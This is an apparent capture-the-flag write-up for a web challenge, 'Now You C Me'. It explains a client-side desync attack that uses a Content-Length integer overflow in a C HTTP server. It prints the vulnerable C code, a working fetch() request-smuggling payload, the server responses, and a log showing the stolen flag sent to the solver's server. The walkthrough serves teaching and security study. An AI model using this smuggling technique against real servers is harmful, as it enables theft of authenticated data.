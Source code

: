 # Now You C Me

**Author**: zeyu2001

**Category**: Web

Flag: `SEE{d0_y0u_SEE_n0w_288df01d75e410233426eb0c74897b9f}`

## Description

Can you C the flag though?

Note:

- The HTTP server is not publicly exposed, but you can test locally. Submit your URL for the admin bot to visit.
- Use the `http://chall` URL as the target page.

## Difficulty

Medium

## Solution

This challenge is inspired by [client-side desync research](https://i.blackhat.com/USA-22/Wednesday/us-22-Kettle-Browser-Powered-Desync-Attacks-wp.pdf) by James Kettle. While this research focused on scenarios involving more than one request-response sequence (one to poison the connection stream, one legitimate), this challenge is meant to be solved with only one request-response sequence.

In this challenge, the unauthenticated `/` URL is publicly readable due to CORS being enabled. This is intended as these public pages should pose no security risk.

```c
// Non authenticated endpoints
#define PUBLIC_RESPONSE_HEADERS printf("Access-Control-Allow-Headers: Authorization\n" \
                                       "Access-Control-Allow-Methods: GET, POST, OPTIONS\n" \
                                       "Access-Control-Allow-Credentials: %s\n" \
                                       "Access-Control-Allow-Origin: %s\n" \
                                       "Content-Type: text/html; charset=UTF-8\n\n", \
                                       request_header("Origin") ? "true" : "false", \
                                       request_header("Origin") ? request_header("Origin") : "*")
```

The authenticated `/api/flag` API endpoint, however, is not CORS-enabled. Therefore, by the Same Origin Policy, the browser will not allow arbitrary pages to access the flag.

If we exploit the desync vulnerability, we can **make a request to the CORS-enabled `/` URL** that will be **split into two seperate requests** by the server. The first request will be the legitimate request to `/`, and the second request will be the malicious request to `/api/flag`. The server then answers both requests. Because the browser treats this as a single response (for the `/` URL), we can read both responses thanks to the first response's CORS headers.

The vulnerability here is simple enough to spot - the `Content-Length` is processed using `atoi` and a sufficiently large `Content-Length` causes an overflow in the `payload_size`.

```c
short payload_size;

...

payload_size = t2 ? atoi(t2) : 0;
```

The interesting part is crafting the exploit. Client-side desync attacks are powerful because they can be constructed from perfectly valid requests through the `fetch` API.

For instance,

```javascript
fetch("http://app/api/", {method: "POST", credentials: "include", body: "xx\r\nPOST /api/flag HTTP/1.1\r\nHost: x.com\r\nOrigin: http://x.com\r\n\r\n" + "a".repeat(65540 - 66) }).then(r => r.text()).then(data => console.log(data))
```

sends

```http
POST /api/ HTTP/1.1
Host: app
Content-Length: 65540
Pragma: no-cache
Cache-Control: no-cache
Authorization: Basic YWRtaW46am95b3VzLXVubGluZWQtdW5zb2NpYWw=

...

Connection: close

xx
POST /api/flag HTTP/1.1
Host: x.com
Origin: http://x.com

aaa ... (until 65540 `Content-Length`)
```

which is processed by the server as two requests: the first one having a content length of 4 (due to the overflow) and the second one being a POST request to `/api/flag`.

The second bug is in the setting of `is_admin` - as long as the first request has a valid `Authorization` header, any subsequent requests in the same TCP stream will be treated as authenticated.

```c
if (request_header("Authorization") != NULL && strstr(request_header("Authorization"), getenv("SECRET")) != NULL) {
    is_admin = true;
}
```

After making the above request, the flag would be found in the response and can be read by our JavaScript.

```http
HTTP/1.1 500 Internal Server Error
Access-Control-Allow-Headers: Authorization
Access-Control-Allow-Methods: GET, POST, OPTIONS
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: http://www.example.com
Content-Type: text/html; charset=UTF-8


HTTP/1.1 200 OK
Content-Type: application/json; charset=UTF-8

{"flag": "SEE{d0_y0u_SEE_n0w_288df01d75e410233426eb0c74897b9f}"}
```

The solution script is available [here](./solve/exploit.html).

```
$ python3 -m http.server 1337
Serving HTTP on :: port 1337 (http://[::]:1337/) ...
::1 - - [30/Dec/2022 02:16:25] "GET /exploit.html HTTP/1.1" 200 -
::1 - - [30/Dec/2022 02:16:26] "GET /?data=SFRUUC8xLjEgMjAwIE9LCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24vanNvbjsgY2hhcnNldD1VVEYtOAoKeyJmbGFnIjogIlNFRXtkMF95MHVfU0VFX24wd18yODhkZjAxZDc1ZTQxMDIzMzQyNmViMGM3NDg5N2I5Zn0ifQ== HTTP/1.1" 200 -
```

## Sidenote

Because Chrome pools its connection sockets for potential reuse, the admin bot starts a new Chrome instance for each request. This prevents players from interfering with each others' attacks.
